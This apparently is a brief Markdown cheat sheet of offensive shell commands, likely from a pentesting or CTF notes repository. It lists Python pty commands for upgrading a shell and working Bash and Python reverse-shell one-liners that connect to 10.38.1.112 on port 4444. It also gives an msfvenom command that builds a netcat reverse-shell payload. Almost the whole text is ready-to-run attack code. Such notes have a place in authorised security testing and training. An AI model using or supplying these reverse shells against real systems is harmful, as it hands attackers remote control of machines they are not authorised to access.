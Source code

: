 # Shells

## Upgrade shell

```console
$ python -c 'import pty; pty.spawn("/bin/bash")'
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Reverse Shells

```console
#Bash
bash -i >& /dev/tcp/10.38.1.112/4444 0>&1

#Python
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.38.1.112",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

## msfvenom

```console
$ msfvenom -p cmd/unix/reverse_netcat lhost=VPN-IP lport=1337 R
```